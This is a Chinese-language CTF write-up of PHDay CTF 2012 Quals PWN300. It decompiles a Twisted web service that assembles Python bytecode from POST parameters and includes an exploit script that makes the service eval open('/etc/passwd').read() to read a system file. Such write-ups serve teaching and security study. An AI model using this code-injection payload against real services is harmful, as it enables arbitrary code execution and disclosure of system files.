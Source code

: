 ```yaml
---
title: PHDay CTF 2012 Quals PWN300
author: kelwin
layout: post
permalink: /phday-ctf-2012-quals-pwn300/
categories:
  - CTF
  - writeup
---
```

这题是基于twisted框架的一个web服务，题目给了一个web.py和process.pyc，阅读web.py代码发现处理post请求的核心函数在process模块中。使用unpyc这个工具反编译process.pyc，得到如下代码：  
<!--more-->

  
def create\_function(name, args\_count, choice, actions, human):

        def y():
            pass
    
        print "choice:", choice
        code = (('t' + choice) + '\x00d\x01\x00\x83\x01\x00S')
        consts = ((None,) + (human,))
        names = actions
    
        fun = [args_count,
         y.func_code.co_nlocals,
         y.func_code.co_stacksize,
         y.func_code.co_flags,
         code,
         consts,
         names,
         y.func_code.co_varnames,
         y.func_code.co_filename,
         name,
         y.func_code.co_firstlineno,
         y.func_code.co_lnotab]
        print fun
        y_code = types.CodeType(*fun)
    
        return types.FunctionType(y_code, y.func_globals, name)
    
    def kill(name):
        return ('%s was killed' % name)
    
    def arrest(name):
        return ('%s was arrested' % name)
    
    def bankrupt(name):
        return ('%s was bankrupted' % name)
    
    def process():
        actions = tuple(args['actions'])
        choice = args['choice'][0]
        human = args['human'][0]
        print create_function('myfunc', 0, choice, actions, human)()
    

这题涉及到Python对象内部结构的知识，包括Python字节码、PyObject和PyCodeObject对象的结构等知识，可以参考hellok找的资料[PYC格式文件分析][1]。

阅读process代码发现，create&#95;function函数将actions写入函数y()的co&#95;names字段，将human合并上None写入co_consts字段，再将choice插入字节码中。我们可以在本地使用Python自带的反汇编工具包[dis][2]查看函数y()被改成了什么样子。

先传入args:

    args = {'human': ["Kenny"], 'actions': ['kill', 'arrest', 'bankrupt'], 'choice': ['\x01']}
    

然后：

    dis.dis(create_function('myfunc', 0, choice, actions, human))
    

得到函数y()的字节码：

      7           0 LOAD_GLOBAL              1 (arrest)
                  3 LOAD_CONST               1 ('Kenny')
                  6 CALL_FUNCTION            1
                  9 RETURN_VALUE
    

这下就很容易理解为什么我们在网页上看到的是“Kenny was arrested”，传进去的actions实际上是供调用的函数符号表，human实际上就是作为arrest的参数（通过LOAD&#95;CONST传入python的栈中），然后choice就是在函数符号表co&#95;names（actions）中选择哪一个函数来执行。

如此一来，我们就知道怎么去执行任意想要的函数了，只需要把函数名方在names中，用choice去指向它，然后把参数放入human。最简单的方式是使用eval(&#8220;/etc/passwd&#8221;)的方式来获得flag。渗透脚本如下：

    url_ = "http://ctf.phdays.com:2137/"
    
    def send(choice, actions, human):
        form = ""
        form += "human=" + human + "&"
        for a in actions:
            form += "actions=" + a + "&"
        form += "choice=" + choice
    
        resp = urllib2.urlopen(url = url_, data = form)
        content = resp.read()
        print content
    
    if __name__ == "__main__":
        choice = "%01"
        actions = ["kill", "eval", "bankrupt"]
        human = "open('/etc/passwd').read()"
        send(choice, actions, human)

 [1]: http://kdr2.net/blog/pyc_format.html
 [2]: http://docs.python.org/2/library/dis.html